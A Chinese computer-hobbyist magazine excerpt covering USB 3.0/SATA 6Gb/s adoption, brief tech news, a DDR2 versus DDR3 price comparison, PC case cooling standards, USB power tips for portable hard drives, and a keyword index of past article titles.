细心的用户一定会发现，虽然第三代接口几乎人尽皆知，但是就连最新的Intel P55，AMD 785G等芯片组也完全没有对其提供支持。这其中有着设计周期的问题（P55的PCH部分和SB750设计的伊始，SATA 6Gb/s和USB 3.0规范还未完全成型），但更多的原因在于翻倍的带宽给南北桥连接带来的压力很大，对于急于搭配新型处理器推出市场的P55和785G需要解决的问题非常多。所以它们两家不约而同地选择了在下一代产品中提供SATA 6Gb/s的支持（USB亦然维持在2.0标准）。

# 价格：控制芯片增加成本不低

由于上述的原因，导致目前面世的产品只能以板载控制芯片来提供SATA 6Gb/s和USB3.0的支持，但控制芯片的成本提升仅仅是一部分，技嘉科技主板事业群创新暨价值中心产品经理徐继道指出：USB3.0是高速的东西，2.0相比3.0针脚不同，在走线等方面要更加小心，除此之外芯片周边的连接芯片也要做到和USB3.0完美兼容，技嘉目前发布的产品经过多次的测试和改进，这些问题才得以解决。

# 态度：观望还是第一个吃螃蟹

USB 1.0到USB 2.0用了4年，而USB 2.0到USB 3.0却用了9年；同样的SATA 1.5Gb/s到SATA 3Gb/s仅用了1年，而从SATA 3Gb/s到SATA 6Gb/s却用了5年。市场不接受、技术不成熟、厂商不支持，或许我们可以找到很多的原因。可是在这一切都到位后大家面面相觑，众多厂商都采取观望的态度，或者只是试探性地在高端上采用，一手促成了现在的局面。为此我们采访了作为第一个吃螃蟹的人——技嘉科技。技嘉科技主板中国事业群总经理刘文忠告诉我们：技嘉在推出新技术的时候，秉承实用的态度，这些技术都是对消费者有益的，当这些可行，我们就推出了，我们的原则是多快好省，更快的速度更好的性价比，这才是消费者需要的产品。目前是在P55平台上推出，紧接着我们其他产品都会采用这个技术。

Intel是USB3.0规范的成员之一，也是最大的推动者，SATA3.0/USB3.0是目前关注度最高的技术，大家都期望采用这个技术的产品早日上市，但是芯片组厂商的不作为、主板厂商的犹豫不决，让我们迈向这第三代数据接口的步伐举步维艰。随着配套存储设备、外设的相继发布，等待下一代芯片组不是我们唯一的选择，我们也期待着更多的厂商来推动和推出SATA 6Gb/s和USB 3.0的产品。就像徐继道所说的：有技术的创新和市场竞争才会有进步，无论Intel还是其他芯片组厂商是否跟上来，都不要让我们停下前进的脚步。

(文\HY)

# NEW TECH IT新技术

### Biosensor（可检测癌症早期症状的传感器）

斯坦福大学的科学家最近利用纳米科技及电磁效应发明了一种生化传感器。这种传感器可以及早发现癌症的早期症状，有利于患者及时进行治疗。科学家声称，这种安装在微晶片中的传感器，其灵敏度比现有的医用癌症探测仪高1000倍以上。

科学家们表示：“在癌症早期患者的血液中，蛋白质指标的等级非常之低，因此需要使用灵敏度极高的传感器才可以将其检测出来。而如果能及早检测到癌症的症状，那么癌症的治愈率便可大大提高”。

### RTI（能透视墙壁的无线网络系统）

美国犹他大学电子和计算机工程系的研究人员利用无线发射接收机，使用无线层析成像（RTI）技术，可以“透视”并跟踪固体墙后移动的人和物体，而被跟踪的人不需要使用射频识别标签。这个无线网络系统可以用于警察局和消防队，以及用于解救人质、火灾受困者等等。当无线电波通过人体或者其他物体时，通过RTI技术，可测量到射频信号强度，这和医学上的CT扫描非常相似。研究者Pawari说，比起光学和红外成像技术，RTI技术更有优势，因为它可以穿透墙壁、树木和烟雾，RTI还可以在黑暗的环境中工作。而且，系统中无线电波产生的辐射比一般手机小500倍，因此不会对人体产生伤害。

### WiFi Direct（WiFi直连）

WiFi联盟组织最近宣布他们很快会推出一款新的无线技术标准WiFi直连，这种标准允许无线网络中的设备无需通过无线路由器即可相互连接，与蓝牙技术类似，这种标准允许无线设备以点对点的形式互连，不过在传输速度和传输距离方面则比蓝牙有所提升。另据称，现有的WiFi无线设备可通过软件升级具备支持这种技术的能力。这种技术支持的有效传输间隔距离为100米，除此之外，该标准还内含有WPA2安全管理功能，因此在企业环境中应用这种技术在安全方面将有所保障。

# DDR3、DDR2我该选哪个

临近12月份，DDR2内存颗粒持续着涨势，虽然对比之前几个月平缓了许多，但是相较于几个月前的低价市场主流型号产品出现了百元左右的大幅上涨。由于INTEL和内存厂商错估DDR2内存市场，造成三星等大厂全力投入DDR3内存，而市场对DDR2内存的实际需求却并未减少，尤其是笔记本厂商对DDR2内存的需求更是持续不减，这将导致未来DDR2内存持续缺货，价格也将继续上涨。

**平台价格对比**

| 项目 | DDR3平台 | 价格 |
| --- | --- | --- |
| CPU | AMD速龙II X2 245 | 430元 |
| 主板 | 技嘉GA-MA785GT-UD3H | 699元 |
| 内存 | 金士顿2GB DDR3 1333 | 345元 |
| 总价 | | 1474元 |
| 项目 | DDR2平台 | 价格 |
| CPU | AMD速龙II X2 245 | 430元 |
| 主板 | 技嘉GA-MA785GM-US2H | 649元 |
| 内存 | 金士顿2GB DDR2 800(窄板) | 315元 |
| 总价 | | 1394元 |
| 价格差 | 6% | 80元 |

## DDR2真的便宜很多吗？

**国际DRAM颗粒现货价格表**

| 种类 | 项目 | 日高点 | 日低点 | 盘高点 | 盘低点 | 盘平价 | 涨跌幅 |
| --- | --- | --- | --- | --- | --- | --- | --- |
| DDR3 1Gb 128Mx8 1333MHz | | 2.98 | 2.85 | 2.98 | 2.85 | 2.91 | (-0.27%) |
| DDR2 1Gb 128Mx8 800MHz | | 2.68 | 2.60 | 2.68 | 2.60 | 2.63 | (0.15%) |
| DDR2 1Gb 128Mx8 eTT | | 2.56 | 2.49 | 2.53 | 2.49 | 2.52 | (-0.31%) |

▲截止至11月中旬，DDR2内存颗粒的报价还在持续上涨。

## DDR3性能提升有多少？

DDR3相比DDR2内存主要是速度上的提升。DDR3预取机制从DDR2的4bit提升到8bit，核心同频率下数据传输量将会是DDR2的两倍，在相同频率下，DDR3的数据传输率是DDR2的两倍。而另一个方面，抛开了FSB总线的束缚无论是采用K10核心的Athlon II、PhenomII还是i5、i7都对内存带宽有着很大的需求。看过上面的对比，想必大家心里也有数了，DDR3平台在价格提升不大的情况下带来了一定程度的性能提升。考虑到日后升级的原因，DDR3更是不二之选。

# 38℃机箱退休时间到

不久之前，笔者换掉了伴随自己4年的电脑机箱。看了看机箱里的主板、CPU、显卡甚至是硬盘已经更换了很多次，速度更快、容量更大一次次刺激着我们的购买欲。但机箱却一成不变的装着这些新设备、新硬件。笔者的老机箱是一款塔式服务器机箱，用料扎实，外观严谨并且价格也不便宜。但是这么多年折腾下来，它也算是奄奄一息了。单纯的增加风扇散热效果达到了，噪音也上去了：打开侧面板，温度下来了，健康不要了。更不要提堆积在各处的土疙瘩（常年懒得清理，灰尘已经结成块状）和偶尔需要用手敲打来停止的嗡嗡声。这个时候，也许真的是该让它退休养老，回乡下安享晚年了。可市面上看似光鲜靓丽的机箱有着什么不同呢？或许价格高昂的纯铝、亚克力会有着不错的表现，但这显然不是我们这种“银子”不多的人买得起的东西。

## TAC：机箱里的行业标准

### 小知识 什么是38℃机箱？

所谓的“38度标准”是指Intel制定的两套机箱设计规范—CAG与TAC。遵循CAG或TAC设计规范的机箱，在散热方面一般会有比较好的表现，系统整机温度会得到较好的控制。而所谓的“38度”，实际上是遵循设计规范的机箱稳定工作时，CPU上方20mm范围内的理想温度值。

### 还在用38℃？你Out了！

众所周知38℃机箱就是TAC 1.0的俗称，其目的是让机箱外部冷空气能够更直接进入机箱内部甚至直接对应处理器从而达到更好的降温效果。为了达到这个目的，除了普通机箱的前后双重对流风道外，还给CPU设计了一个独立风道：在处理器对应的侧板位置开设一个6cm的导风孔，在内部有一个可伸缩的导风管和导风罩，罩在CPU散热器上方，CPU的散热器风扇通过导风管，直接从侧板外面吸入冷空气给处理器进行散热，加热后的热空气通过机箱后板上的8cm机箱风扇排出。而随着CPU功耗的逐渐降低（45nm制程甚至今后的32nm制程都会把处理器功耗维持在150W左右），而不再是Pentium 4时代的“电老虎”，那么CPU的散热就变得不再那么重要。但是显卡却在近两年内开始崛起，从起初的100W到现在的接近500W，100℃以上的运行温度已经成为了高端显卡的标准参数。

### TAC 2.0让滚烫的显卡凉下来

上面说到38℃机箱已经有些不合时宜，去掉了CPU的导风罩后，机箱内部虽然更为简洁，更利于机箱内部的整体空气流向控制。但是显卡的高热量堆积如何来疏导呢？新的TAC 2.0规范用大面积冲孔网加强显卡散热，更适合当前的使用环境。

### TAC 2.0并非万能，选择机箱还需谨慎而行

虽然TAC 2.0千好万好，但是缺点也比较明显，侧板大面积冲网的采用，一来让辐射有了更好的逃窜途径，二来也让灰尘有了入侵的更好的通道。所以防尘性能和冲网的防辐射性使我们选购TAC 2.0机箱最需要注意的地方。

结语如果说电源是电脑心脏，那么机箱便是电脑的骨骼和皮肤，选购一款好的机箱不但要着重它的坚固性，更要与时俱进的重视它的散热性、防尘性等。Pentium时代离我们慢慢远去，进入Core时代后你是不是也该把这些老家伙换一换了？

# 都在年头了，移动硬盘还是供电不足？

为了能够便捷地存储大容量文件，很多人都购买了USB接口的移动硬盘，可是在使用的时候却发现系统无法识别移动硬盘。这其中或许有着BIOS设置不当，延长线质量不好或者Windows版本太低的原因。但是最主要的问题却还是早在USB出现之初就让人头疼的供电问题。

## 双接口，不一定是标配

不知道大家注意到没有，有时双接口的USB数据线插一根也可以让移动硬盘正常工作。这是一方面是因为台式机的主板考虑到USB的压降（由于导线电阻导致的电压降低），而对500mA的电流做出了一定的提高（一般多见于USB2.0接口，电流增强至700mA左右）；另一方面是5400转笔记本硬盘的功耗并不高（一般在2W到4W左右）。

## 选插口接硬盘

很多笔记本为用户提供了增强供电型USB接口，在这些USB接口上有“闪电”、“电池”或“+”这样的图标，这些接口是厂家专为关机充电所定制的，电流一般超过500mA，并且可以调整电流的大小，像移动硬盘等需要提供较大电力支持的设备，建议连接在此接口上使用。

在这些USB接口上有“闪电”、“电池”或“+”这样的图标，这些接口是厂家专为关机充电所定制的，电流一般超过500mA，并且可以调整电流的大小，像移动硬盘等需要提供较大电力支持的设备，建议连接在此接口上使用。

闪电标志就是在USB标志的右侧有一个小小的闪电图标。

“+”标志需要仔细观察才能分辨，一般是在USB标志的右上角。

在USB标志的左侧会有小小的电池图标，这个比较容易分辨。

## 主板跳线，多USB设备的救命稻草

一般在台式机上，USB的供电是由5VSB供应的，这是为了支持鼠标、键盘的唤醒来设计的，但是5VSB只有2A左右的输出电流，在连接机械键盘、移动硬盘后便会很吃力。所以我们需要更改主板跳线，使USB输出变为5V供电。

5VSB/5V切换跳线一般在主板靠近背面接口的一侧，会有USB、PWR等标志，一般默认接在1-2针（5VSB），我们需要把它插接到2-3针（5V）上，这样外设就不会出现无电可用的情况了（具体跳线位置，插接方法最好还是参看你的主板说明书）。

# KEYWORDS SEARCH
## 《电脑爱好者》·合订本·正文分册

| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 376 | 38℃机箱 | 38℃机箱退休时间到 |
| 340 | 3A平台 | 打包才是王道 3A平台驱动一键安装 |
| 273 | 3DMark | 运行3DMark06为何报错 |
| 50 | 3D切换 | "安全模式"就安全? |
| 131 | 3G | 3G来了, 你的钱袋捂紧了吗? |
| 135 | 3G | 大流量莫浪费, 共享3G网络盛宴 |
| 144 | 3G | 3G上网遭遇"初始化失败" |
| 173 | 3G | 3G上网 帮你算算你需要的套餐? |
| 372 | 3G | 你又把自己玩了! 到底是什么挡住了3G的脚步 |
| 35 | 3G尺 | 借助"3G尺", 不让网费超标 |
| 326 | 3G上网本 | 吃螃蟹! 3G上网本初体验 |
| 337 | Acer | 大牌就是系列多: Acer篇 |
| 264 | Acronis Disk Director Suite | 无法卸载Acronis Disk Director Suite |
| 50 | ADSL | 告别ADSL MODEM错误678 |
| 327 | ADSL | 关屏怎会牵连ADSL |
| 274 | AHCI | 开启AHCI为何蓝屏 |
| 366 | AMD | AMD发狠 5000+核变 |
| 271 | ASIO.SYS | 不能打开ASIO.SYS |
| 263 | autochk错误 | 系统总提示autochk错误 |
| 263 | AVG | 恢复AVG误删除文件 |
| 129 | bing | 有求必应! 微软bing都应了什么 |
| 23 | BIOS | 弄清神秘BIOS, 开机出错我不怕 |
| 251 | BIOS | 幕后英雄——你不知道的BIOS |
| 272 | BIOS刷新 | BIOS刷新慢造成CPU温度低 |
| 271 | BIOS写保护 | BIOS写保护造成无法刷新 |
| 113 | BitLocker | 给U盘加把锁, 我有BitLocker |
| 115 | BT | 通宵BT不再怕 系统助你省钱花 |
| 144 | BT下载 | 不放弃, 不抛弃——BT下载一半无进度之应变大法 |
| 349 | BT下载机 | 花小钱省大钱 廉价BT下载机选购 |
| 272 | CPU超频 | CPU超频能力下降 |
| 275 | CPU超频 | CPU超频引起蓝屏现象 |
| 273 | CPU电压 | 调整CPU电压死机 |
| 237 | CPU虚拟 | CPU虚拟化, 真的有用? |
| 255 | CPU占用 | 打开漫画文件夹, CPU占用100% |
| 275 | CPU占用率 | 硬盘设置不当造成CPU占用率为100% |
| 168 | DC | 普通DC也能当高端货 |
| 370 | DDR3 | BANK非银行 认清再买DDR3 |
| 376 | DDR3 | DDR3、DDR2我该选哪个 |
| 51 | DIY | 晋级高手宝典 DIY不再难 |
| 338 | DIY | DIY与整机 谁是DIY将死的原罪 |
| 44 | DLL文件 | 缺少DLL文件时, 我将不会再想起你: DirectX |
| 134 | DNS | Google不着调, 本机DNS拉回头 |
| 138 | DNS解析 | 本地DNS解析, 不再怕暴风断网门 |
| 112 | DVD光盘 | 没有可能? 普通DVD光盘当闪盘用! |
| 272 | DVD刻录机 | DVD刻录机无法使用 |
| 262 | Easyboot | Easyboot工作出错 |
| 50 | EFI | 为Windows XP增加Vista的3D切换 |
| 263 | Everything | Windows 7下Everything不能随机启动 |
| 203 | Excel | Excel的超级工具箱 |
| 209 | Excel | 玩的就是专业: Excel打造客户往来款管理系统 |
| 212 | Excel | 照片人名一对一——另类方法在Excel中批量插入图片 |
| 214 | Excel | 金牌销售的Excel秘技: 制作动态销售查询图表 |
| 258 | EXE文件 | XP下部分exe文件不能运行 |
| 39 | F1 | 和F1说拜拜 |
| 256 | F1 | 开机需按F1才能继续 |
| 269 | Firefox | Firefox中显示图片全黑 |
| 269 | Firefox | Firefox经常崩溃 |
| 270 | Firefox | Firefox无法自动升级 |
| 294 | Flash动画 | Flash补间动画与形状, 闪闪更精彩 |
| 300 | Flash课件 | 胸有蓝图, Flash课件整体构思实例谈 |
| 302 | Flash课件 | Flash课件导航巧构思 |
| 310 | Flash课件 | Flash课件发布那些事 |
| 298 | Flash模板 | 巧用Flash模板, 测验类课件速成 |
| 32 | Flash游戏 | Flash游戏下载更轻松 |
| 267 | FLV | FLV下载后总是不完整 |
| 354 | Gateway | 大牌就是系列多: Gateway篇 |
| 272 | Ghost | 硬盘设置不当造成Ghost速度下降 |
| 273 | Ghost | 为何Ghost无法使用 |
| 163 | GIF | 谁说GIF大小不能改 |
| 137 | Gmail | 不再怕断网, 离线Gmail想用就用 |
| 268 | Google相册 | 不能访问Google相册 |
| 354 | GPS天线 | 小改N78 GPS天线 |
| 20 | GPU | DVD摇身变蓝光, GPU通用加速帮你实现 |
| 318 | H3C认证 | 搞定H3C(华三)认证向网络专才迈进一步 |
| 271 | HDMI | HDMI为何不能满屏显示 |
| 274 | HDMI | 使用HDMI黑屏 |
| 271 | HDMI | 停止HDMI的音频输出 |
| 260 | hlp文件 | 系统无法打开hlp文件 |
| 365 | IDE | IDE口老本换硬盘 警惕二手充新 |
| 275 | IDE光驱 | Windows 7下找不到IDE光驱 |
| 342 | IDF | 专家解读: 秋季IDF惊现4大亮点 |
| 266 | IE | IE总是打开酷站189 |
| 267 | IE | IE总是不能使用代理 |
| 268 | IE | 无法打开IE二级页面 |
| 270 | IE | IE核心的浏览器打不开百度贴吧 |
| 127 | IE8 | 微软急了, IE8亮绝招 |
| 132 | IE8 | IE8直接视频搜索有求"必应" |
| 266 | IE8 | IE8无法安装CCTV插件 |
| 265 | IE8 | 彻底解决IE8网页按钮小的问题 |
| 266 | IE浏览器 | IE浏览器的自动完成功能失效 |
| 268 | IE搜索栏 | IE搜索栏不能输入 |
| 269 | IE图标 | 找回IE图标 |
| 127 | iGoogle | iGoogle来袭, 挡也挡不住的爱情轰炸机 |
| 154 | IM软件 | 飞信QQ比翼双飞——自己捆绑IM软件 |
| 271 | iPod | iPod为何不能充电 |
| 269 | IP地址 | 无法设置IP地址 |
| 57 | IT民工 | 北京浮生记——一个IT民工"凿壁偷网"的故事 |
| 292 | IT职业规划 | 毕业生: 我的未来不是梦 七大疑问解决IT职业规划难 |
| 264 | KMP | KMP播放时有噪音 |
| 260 | KMPlayer | KMPlayer无法播放录制的WMV |
| 262 | KMPlayer | KMPlayer丢失捕获功能 |
| 263 | KMPlayer | KMPlayer无法播放RMVB电影 |
| 166 | KMS 8.0 | KMS 8.0造就失而复得的手机 |
| 56 | Logo | 你偷网站Logo 我来偷软件Logo |
| 264 | McAfee | McAfee安装时出现1920错误 |
| 116 | MD5值 | 不要宰牛刀, MD5值校对更方便 |
| 272 | MIDI音频 | 播放MIDI音频文件不发声 |
| 335 | MP3 | 路漫漫其修远 国内MP3品牌出路何方 |
| 362 | MP4 | MP4够雷 MID够囧 MP4剑指MID |
| 367 | MP4 | 选你想要的MP4 |
| 166 | MSE | 微软新宠 MSE实测一二三 |
| 148 | MSN | MSN的自动回复小秘书 |
| 149 | MSN | 放大表情符, MSN笑得更灿烂 |
| 268 | MSN | MSN不能最小化到托盘 |
| 243 | MSN掉线 | 听说了吗? MSN掉线是"堵车"惹的祸 |
| 296 | NCRE | NCRE三级数据库技术与四级数据库工程师考试解读 |
| 267 | Outlook | Outlook下载邮件后总是将源邮件删除 |
| 143 | P2P软件 | P2P软件飙起来——菜鸟也能玩的"端口转发" |
| 233 | P2P搜索 | 百度P2P搜索是昙花一现吗 |
| 264 | Packet.dll错误 | 系统出现Packet.dll错误 |
| 21 | PDF | 玩转PDF, 读遍天下书 |
| 84 | PDF | 紧! 风声很紧! 15个PDF情报泄露 |
| 174 | Picasa | Picasa查看图片可与众不同 |
| 265 | Potplayer | Potplayer不能自动播放电视剧 |
| 37 | PowerPoint | 国庆的照片用PowerPoint来管理 PowerPoint制作音乐相册 |
| 157 | PPS | PPS电影下载看 |
| 264 | PQ | PQ无法给硬盘分区 |
| 265 | Process Explorer | Process Explorer无法替代系统进程管理器 |
| 22 | QQ | 想聊就聊谁也挡不住——QQ暗聊独门绝技 |
| 141 | QQ | 每天上网一小时, 自己赚钱养QQ |
| 142 | QQ | 图"说话", 一锅端, 新QQ功能超会员 |
| 144 | QQ | 拒绝重装, 让QQ和迅雷重新"绿"起来 |
| 148 | QQ | 另辟蹊径申请QQ"靓号" |
| 158 | QQ | QQ秘密"基地"的那些事儿 |
| 229 | QQ | QQ里的"漏网之鱼" |
| 267 | QQ | QQ、TM总是假死 |
| 268 | QQ | 无法打开QQ相关网页 |
| 269 | QQ | QQ无法登录 |
| 269 | QQ | QQ不能发送文件夹 |
| 269 | QQ | 点击QQ上的按钮没反应 |
| 130 | QQ2009 | QQ2009, 补补更健康 |
| 267 | QQ2009 | 无法安装QQ2009 |
| 268 | QQ2009 | QQ2009不能直接调用傲游 |
| 152 | QQ2010 | 又快又好! QQ2010来了…… |
| 38 | QQ表情 | QQ表情快搜索 |
| 265 | QQ好友 | 怀疑对方不是我的QQ好友了, 怎么确认 |
| 31 | QQ空间 | QQ空间装扮终极武器: QQ空间克隆 |
| 134 | QQ空间 | 窃不是偷, QQ空间日志转载没商量 |
| 135 | QQ空间 | 不进你家门, 照样看QQ空间靓照 |
| 265 | QQ空间 | 系统还原后QQ空间图片显示不正常 |
| 154 | QQ农场 | 免费获取QQ农场大礼包 |
| 265 | QQ农场 | 无法使用QQ农场全屏助手 |
| 269 | QQ农场 | QQ农场重启后总要安装Flash插件 |
| 270 | QQ农场 | QQ农场无法进入 |
| 158 | QQ签名 | 另类的动态QQ签名秀 |
| 266 | QQ群共享 | 无法找到QQ群共享 |
| 266 | QQ头像 | QQ头像处总显示QQ号 |
| 37 | QQ邮箱 | 用好"全能"的QQ邮箱 |
| 179 | RealPlayer | 独乐乐? 众乐乐? RealPlayer SP随你 |
| 31 | RSS订阅 | 关于RSS订阅我有话说 |
| 149 | RSS阅读 | RSS阅读谁是最好的"网络信使" |
| 358 | S60软件 | 安装S60软件出错? 来签个名吧 |
| 274 | SD卡 | 为何无法识别2GB的SD卡 |
| 258 | SFC命令 | SFC命令总需要安装光盘 |
| 269 | Skype | Skype充值后不能打电话 |
| 357 | SONY | 大牌就是系列多: SONY篇 |
| 261 | SOSO工具条 | 为何SOSO工具条被安装到系统中 |
| 95 | SP2 | 大话SP2 你可能不知道的三字诀 |
| 33 | SSD | SSD想说爱你还真难 |
| 264 | TC | TC中中文文件为何不能按顺序排序 |
| 266 | TCP/IP协议 | 为何找不到TCP/IP协议项 |
| 273 | Turbo-Key | 使用Turbo-Key死机 |
| 97 | Ubuntu | 学生上课睡觉? 老师您试试Ubuntu |
| 100 | Ubuntu | 正点照片 Ubuntu下照样PS |
| 111 | Ubuntu | 混不好就不回来了! Ubuntu征服软件的4个蜕变 |
| 116 | Ubuntu | 我家大门常打开, 欢迎你住进来 |
| 236 | Ubuntu | 补充挑战: 把Ubuntu装进口袋里 |
| 53 | USB | 我要下达USB禁用令! |
| 271 | USB键盘 | USB键盘安装系统时无法使用 |
| 272 | USB设备 | 华硕Eee PC接入USB设备问题 |
| 336 | USB手机充电器 | 自制多头USB手机充电器 |
| 259 | U盾 | Windows 7下如何使用工行旧版U盾 |
| 189 | U盘病毒 | 小U盘里故事多 外语精英"驯服"U盘病毒 |
| 264 | Virtual Drive Manage | Virtual Drive Manage出现0050蓝屏 |
| 19 | Vista | 借把钥匙, 也要打开Vista这扇门 |
| 106 | Vista光盘 | 不折腾不快乐, 新驱动进驻Vista光盘 |
| 263 | Visual C++ 6.0 | 无法安装 Visual C++ 6.0 |
| 129 | WAP网站 | 手机WAP网站建在自己家 |
| 27 | Web版式 | Web版式出手, 网页打印无忧 |
| 241 | Web邮件 | Web邮件附件保存法 |
| 157 | WiFi | Win7让WiFi来得更猛烈些吧 |
| 110 | Windows 7 | 天涯若比邻 Windows 7远程看片儿 |
| 121 | Windows 7 | 能虚则无敌 让Win7成为大沙盒 |
| 247 | Windows 7 | 回归传统, 开启Win7操作流畅的KEY |
| 255 | Windows 7 | Windows 7不能安装显卡驱动程序 |
| 257 | Windows 7 | 安装Windows 7后无法访问第二块硬盘 |
| 258 | Windows 7 | Windows 7只能显示1024×768的分辨率 |
| 258 | Windows 7 | Windows 7不能正常使用管理工具 |
| 265 | Windows 7 | Windows 7下无法使用CCTVBOX |
| 269 | Windows 7 | Windows 7下无法保存傲游设置 |
| 274 | Windows 7 | Windows 7下显示不正常 |
| 341 | Windows 7 | 捆绑Windows 7 是谁拖住了硬件的后腿 |
| 342 | Windows 7 | Windows 7 看得分买电脑可行吗 |
| 359 | Windows 7 | 没门有窗户 老机也能玩Windows 7 |
| 364 | Windows 7 | 快来看看你的本本能不能升级Windows 7 |
| 267 | Windows Live Messenger | 无法安装Windows Live Messenger |
| 324 | Windows Mobile | 我爱Windows Mobile: 与WM的第一次亲密接触 |
| 263 | Windows Search | 无法更新Windows Search |
| 274 | Windows XP | 设置不当无法安装Windows XP |
| 262 | WinMount | 如何关闭状态栏中的WinMount信息 |
| 263 | WinRAR | WinRAR为何不能直接删除压缩包中的文件 |
| 41 | Word | Word按小数点对齐数字简单一法 |
| 89 | Word | Word引领文字"革命" 5连发重磅出击 |
| 202 | Word | 精图绝恋 Word物理做图一点通 |
| 203 | Word | 有选择删除Word最近文档记录 |
| 206 | Word | Word按小数点对齐数字 |
| 209 | Word | Word文档打不开, 缘是杀软对着干 |
| 215 | Word | 原创软件独家发布: Word文档一键快速转换 |
| 263 | Word | Word运行出错 |
| 212 | WPS | 巧用WPS工资表单自动调顺序 |
| 213 | WPS | 巧用WPS 快速进行自动分班操作 |
| 203 | WPS 2009 | WPS 2009, 化零为整大法 |
| 211 | WPS 2009 | WPS 2009: 材料送审, 修修订订快又省 |
| 201 | WPS文字 | 使用WPS文字制作精美宣传页 |
| 274 | XP模式 | 为何Windows 7无法使用"XP模式" |
| 182 | YY语音 | YY语音 大家一起聊 |
|   | **A** |   |
| 265 | 阿里旺旺 | 阿里旺旺内嵌链接失效 |
| 266 | 阿里旺旺 | 阿里旺旺聊天看不到消息记录 |
| 268 | 阿里旺旺 | 阿里旺旺内嵌链接失效 |
| 177 | 安全精灵 | 快乐不短暂 绿意安全精灵随你左右 |
| 50 | 安全模式 | 找回WIN7的镜子 |
| 255 | 安全模式 | 如何进入Windows 7的安全模式 |
| 160 | 安全预览 | 不入虎穴得虎子, 安全预览链接图片 |
| 96 | 安全运行 | 当心灰太狼的偷袭, 小心翼翼保安全运行 |
| 112 | 安装 | 抛弃安装, "假"文件成就真系统 |
| 113 | 安装盘 | 用nLite自制认识SATA的XP安装盘 |
| 262 | 安装软件 | 安装软件提示路径中含有无效字符 |
| 265 | 傲游 | 傲游下载器损坏 |
| 267 | 傲游 | 傲游的拖拽搜索功能失效 |
| 269 | 傲游 | 傲游无法显示图片 |
| 269 | 傲游 | 傲游标签总是自动刷新 |
| 270 | 傲游 | 傲游无法切换用户 |
|   | **B** |   |
| 210 | 办公系统 | 谷歌、OpenOffice 打造办公系统 |
| 247 | 半开连接数 | 够用就好, 别让半开连接数让你发晕 |
| 260 | 保存文件 | Word不能正常保存文件 |
| 34 | 报表 | 保护+提醒, 我的报表不出错 |
| 230 | 暴风门 | Stop! 一切操作完全定格 |
| 115 | 备份恢复 | 长假漫漫, 扔掉GHOST, 打造新的备份恢复盘 |
| 332 | 背包 | 好包包坏包包 背包攻略全知道 |
| 350 | 背景音乐 | 聊天室背景放音乐 为啥我的本本就不行 |
| 267 | 笔记本 | 笔记本无法搜索到无线网络 |
| 274 | 笔记本电池 | 笔记本使用电池为何自动断电 |
| 352 | 笔记本硬盘 | 笔记本硬盘5400rpm 500GB 还是7200rpm 320GB? |
| 320 | 笔试题 | 2010年各大公司笔试题大揭秘(一) |
| 322 | 笔试题 | 2010年各大公司笔试题大揭秘(二) |
| 264 | 编辑器 | 公式编辑器出现乱码 |
| 364 | 便携 | 便携年轻人的消费新主张 |
| 327 | 便携本本 | 超便携本本 你会买吗 |
| 163 | 变脸 | 变脸, 你玩了吗 |
| 351 | 标识 | 认清标识 选对相机 |
| 22 | 表格 | Word表格原来如此轻松 |
| 207 | 表格 | 善用表格让办公更轻松 |
| 162 | 表情 | 眼睛一闭一睁 表情就打出来了hang~ |
| 233 | 病毒 | 不见兔子不放鹰 揭秘病毒如何启动 |
| 265 | 拨号 | 拨号连接总是卡死 |
| 231 | 播放 | 用"暴风门"事件给你上一节网络知识课 |
| 261 | 播放 | 为何不能播放音乐 |

## KEYWORDS SEARCH
《电脑爱好者》·合订本·正文分册

- 261 播放 无法播放RM、RMVB电影
- 275 播放音乐 播放音乐有爆音
- 81 博客 打造你自己的“名博论语”博客高手4天速成
- 151 博客 嘿，想不想知道谁在看你的博客？
- 164 补丁 软件生病有补丁 补丁生病怎么办
- 200 财务数据 财务数据一览无余
- 43 操作系统 解读操作系统大本营
- 51 蹭网 危险！“我的E家”大门常打开 小心邻居常蹭网
- 139 插件 不用装插件，IE8照样穿马甲
- 27 查找 用好查找和替换，文档处理更轻松
- 373 长焦卡片机 一寸长一寸强 长焦卡片机 卡片机中的战斗机
- 132 超长网址 超长网址惹人厌，网上流行“超短裙”
- 170 超级兔子 硬件信息的传播大师——超级兔子
- 181 超级兔子 无毒启动谁最棒 超级兔子帮你忙
- 148 超级网盘 G.ho.st，能BT的超级网盘
- 33 超链接 用好超链接，来去更自由——玩转Word2007的超级链接
- 164 程序员 不能只卖服装，不卖飞机——程序员的梦之路
- 341 宠物鼠 给本本找个无尾宠物鼠
- 274 重启 安装Windows XP重启
- 169 重装 杀软重装原样还
- 256 抽取 安装软件时提示无法抽取
- 46 触摸板 玩转触摸板
- 264 穿越火线 穿越火线不能全屏
- 273 传动皮带 喷墨打印机传动皮带脱落
- 134 传图 不注册不登录，随手传图好去处
- 270 传文件 QQ传文件非常慢
- 98 窗口 人老窗不老，8旬XP修炼花哨时髦窗口
- 130 窗口 排排坐，食果果，窗口再多也不乱
- 169 窗口操作 莫急躁 窗口操作可以随心所欲
- 182 窗口假死 窗口假死 我来枪毙你
- 100 磁盘碎片 不务正业，另类方法快速整理磁盘碎片
- 368 存储卡 学过算术就能买合适存储卡
- 25 打印 小册子完美打印之终结者
- 41 打印 打印 没你想像的那么简单
- 204 打印 绿色环保：一纸打印
- 21 打印机 打印机闹情绪调教之续集
- 272 打印机 税控打印机出现乱码
- 273 大内存 安装大内存为何硬盘容量减小
- 108 大文件 大腕儿待遇，大文件从此爱上闪盘
- 256 待机 安装系统后没有待机、休眠选项
- 340 单键拨号 单键拨号也会有你不知道的妙用
- 305 刀刀狗 住在心灵里的刀刀狗用电脑和网络打开一扇窗
- 145 登录 登录也无忧——谨防已登录QQ泄密
- 250 登录 时间一到系统就自动登录
- 257 登录系统 登录系统为何没有密码保护
- 54 等级编号 搞定烦人的等级编号
- 270 地址 转换地址后无法下载
- 372 点读机 免费的点读机随时随地可查的英汉大词典
- 330 电池延时 Vista电池延时术 要多久有多久
- 347 电池延时 电池不是这么玩的 炸了并不一定是它的错
- 183 电脑抽奖 准备电脑抽奖别发愁
- 63 电视直播 当世界的大门关闭时，我们还有电视直播！
- 271 电源 电源供电不足造成显卡问题
- 348 电源 带着电源看医生
- 360 电源 百元电源体质也够悍
- 316 调客 调客，吊起你的网赚胃口来
- 331 东芝 大牌就是系列多：东芝篇
- 249 动感相册 纪念动感超人 搞到动感相册
- 216 动态散点图 妙用动态散点图，精确计算盈亏平衡点
- 18 抖动 与模糊说再见 降低拍照抖动小技巧
- 338 读卡器 万变不离其宗 读卡器导购技巧
- 273 独立显卡 G41主板安装独立显卡无显示
